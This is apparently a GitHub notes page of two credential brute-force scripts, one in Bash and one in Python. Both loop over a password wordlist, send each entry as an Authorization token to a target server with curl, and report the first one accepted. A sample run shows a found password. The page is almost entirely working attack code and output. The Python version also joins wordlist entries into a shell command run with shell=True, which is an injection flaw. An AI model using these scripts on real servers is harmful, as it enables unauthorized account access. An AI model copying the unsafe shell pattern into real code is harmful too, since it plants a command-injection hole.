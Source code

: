 # Scripts
Bash script to read different tokens from a file and pass them to `curl` command to find out the valid token for authorization
```bash
#!/bin/bash
while read token; do
content=$(curl -s -H 'Authorization: Token '"$token" $1)
if echo "$content" | grep -qi "unauth"; then
continue
else
echo "Found token : $token"
fi
done <$2
```
output
```sh
./brute.sh 192.186.248.3 wordlists/100-common-passwords.txt
```

## Run shell programs by reading commandline arguments
```python
import subprocess
import argparse

def crack(filename, ip_addr) :

  with open(filename) as f:
    password_list = f.readlines()
  
  # to remove whitespace characters like `\n` at the end of each line
  password_list = [x.strip() for x in password_list]  

  print(password_list)

  for password in password_list :
    comd = "curl -s -H 'Authorization: Token " + password + "' " + ip_addr  
    print("Trying..." + password)
    output = subprocess.run(comd, capture_output=True, shell=True).stdout.decode('utf-8')

    if "Unauth".lower() in output.lower():
      print("Unauth".lower()+"-->" + output.lower())
      continue
    else :
      print("Found : " + password)
      break

if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("filename", help="Enter the filename containing passwords")
  parser.add_argument("ip_addr", help="Enter the IP address of server including http://")

  args = parser.parse_args()
  crack(args.filename, args.ip_addr)
```
Output
```sh
$ python3 crack.py /root/wordlists/100-common-passwords.txt http://192.107.107.3
Trying...damian
unauth-->unauthorized access
Trying...123123123
Found : 123123123
```
